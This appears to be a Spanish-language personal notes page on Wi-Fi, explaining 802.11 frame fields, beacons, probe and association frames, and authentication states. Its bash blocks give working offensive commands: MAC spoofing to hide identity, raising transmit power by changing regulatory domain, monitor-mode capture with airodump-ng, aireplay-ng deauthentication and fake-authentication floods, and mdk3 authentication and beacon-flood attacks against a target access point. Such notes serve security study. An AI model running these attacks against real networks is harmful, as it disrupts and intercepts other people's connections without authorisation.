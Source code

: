 ```yaml
---
title: 'Wi-fi'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1685504739/Screenshot_from_2023-05-30_23-45-31_akzecv.png'
slug: 'wi_fi'
---
```


### Basic

La maxima transmision de poder esta basado en las leyes de cada pais llamado regulatory domain (regdomain) que corresponde al ISO del codigo del pais.

Por defecto el adaptador esta configurado a cero, pero se puede cambiar por la linea de comandos

#### 802.11 MPDU (MAC Protocol DATA Unit) formato

Cada campo esta anotado por la longitud de su byte

<div id="table">

| bytes 2          | 2           | 6       | 6     | 6       | 2                | 6     | 0-2312     | 4         |     |       |
|------------------|-------------|---------|-------|---------|------------------|-------|------------|-----------|-----|-------|
| frame control    | Duration ID | Addr1   | Addr2 | Addr3   | Sequence Control | Addr4 | Frame Body | fcs       |     |       |
| protocol version | type        | subtype | to DS | From DS | More flag        | Retry | Pwr Mgmt   | More Data | wep | order |
| bits 2           | 2           | 4       | 1     | 1       | 1                | 1     | 1          | 1         | 1   | 1     |

</div>

```bash
# basics #
iwconfig
#more information
iw list

# Pone el wifi en el canal 11
iwconfig wlan0 channel 11
iw dev wlan0 set channel 11

# dbm #
# incrementar el maximo poder de transmision en el adaptador wifi
iw reg set BO

# 30 dbm corresponde a 1000mW
iw dev wlan0 set txpower fixed 30dbm

# confirmar que funciona
iwconfig wlan0

# test mode (calidad de nuestro setup para el AP "access point") #
aireplay-ng -9 wlan0

```
<img src='https://res.cloudinary.com/djc1umong/image/upload/v1685504598/Screenshot_from_2023-05-30_23-42-53_qued87.png' />

```bash
## cambiar nuestro mac para camuflarse
macchanger -h
sudo airmon-ng check
sudo airmon-ng check kill

ifconfig wlan0 down

iwconfig wlan0

ifconfig wlan0 up

# creamos la interfaz mon0 a partir de wlan0
iw dev wlan0 interface add mon0 type monitor

#########################################
sudo ip link set wlp1s0 down
#sudo iw wlp1s0 set monitor none
#;sudo iw wlp1s0 set type managed
;sudo iw wlp1s0 set type monitor
sudo ip link set wlp1s0 up
###########################

ifconfig mon0 up

# monitoreamos toda la red
airodump-ng wlan0

# Monitoreamos la red mac_address por el canal 36 usando la red wlan0
airodump-ng --bssid mac_address -c 36 wlan0 -w captura.txt

# Enviamos paquetes de deactentication
aireplay-ng -0 15 -a mac_address -c device_address_station wlan0

## ataque de authenticacion para saturar
aireplay-ng -1 0 -a mac_address -h device_address_station_random wlan0

# Enviar usuaruois de one
mdk3 wlan0 a -a mac_address

## Ataque 3 de beacons meter usuarios a la red wifi
# usando wlan0 ataque b con el archivo redes.txt -a wpa2 cada segundo x el canal 11
# cat redes.txt
# network1
# network2
# network3

mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11
```

**BSSID:** Identifica un AP
**Dirección de destino (DA):** Destino final para recivir el frame
**Dirección fuente (SA):** Fuente original que creo el frame
**Dirección del destinatario (RA):** Destino STA
**Dirección del transmisor (TA):** Transmisor STA

Los *beacons* son fotogramas que transmite periodicamente el AP. Su proposito es anunciar la red WI-FI, contiene información sobre los parametros de la red y capacidades del AP como tasas de rendimiento admitidas

*Probe requests* son enviados por el cliente para determinar la disponibilidad de la red, contiene el nombre SSID y es enviado por todos los canales, un nullbyte puede ser enviado si no quiere buscar una red especifica

*Probe responses* son enviados por el AP una vez que recibe el probe request, son parecidos al beacon pero con información adicional según lo especificado por el cliente que se comunica dentro del prove request correspondiente

Despues de la authenticación una estacion necesita ser asociada por el AP, este es el proposito del *Association Request* frames, contiene información sobre las capacidades STA, velocidades de data transmitida y el SSID de la red a la que desea asociarse

### 3 estados posibles de conexión

1. No autenticado
2. Autenticado pero no asociado
3. Autenticado y asociado

El estandar 802.11 original especifica que hay 2 modos de autenticación diferentes.


- Autenticación abierta
- Autenticación de llave compartida

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031056/Screenshot_from_2023-08-02_22-50-09_yi6gyw.webp" alt="airodump-ng">

esta seccion muestra información sobre los clientes de la red

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1691031181/Screenshot_from_2023-08-02_22-52-47_mzhdsw.webp" alt="">

